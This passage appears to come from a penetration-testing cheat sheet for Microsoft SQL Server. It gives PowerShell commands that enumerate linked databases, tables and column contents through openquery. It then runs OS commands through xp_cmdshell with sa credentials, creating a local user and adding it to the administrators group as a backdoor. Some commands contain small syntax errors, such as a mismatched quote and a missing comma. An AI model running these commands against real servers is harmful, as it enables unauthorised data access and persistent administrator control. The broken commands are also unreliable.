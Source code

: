 ### Determine Names of Linked Databases 

> tempdb, model ,and msdb are default databases usually not worth looking into. Master is also default but may have something and anything else is custom and definitely worth digging into. The result is DatabaseName which feeds into following query.

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from sys.databases')" -Verbose
```

### Determine All the Tables Names from a Selected Linked Database

> The result is TableName which feeds into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from <DatabaseNameFromPreviousCommand>.sys.tables')" -Verbose
```

### Gather the Top 5 Columns from a Selected Linked Table

> The results are ColumnName and ColumnValue which feed into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select TOP 5 * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand>')" -Verbose
```

### Gather Entries from a Selected Linked Column


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`"'select * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand> where <ColumnNameFromPreviousCommand>=<ColumnValueFromPreviousCommand>')" -Verbose
```


### Command Execution via xp_cmdshell

> xp_cmdshell disabled by default since SQL Server 2005

```ps1
Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command whoami
Creates and adds local user backup to the local administrators group:
Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net user backup Password1234 /add' -Verbose
Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net localgroup administrators backup /add" -Verbose
```

## Extended Stored Procedure
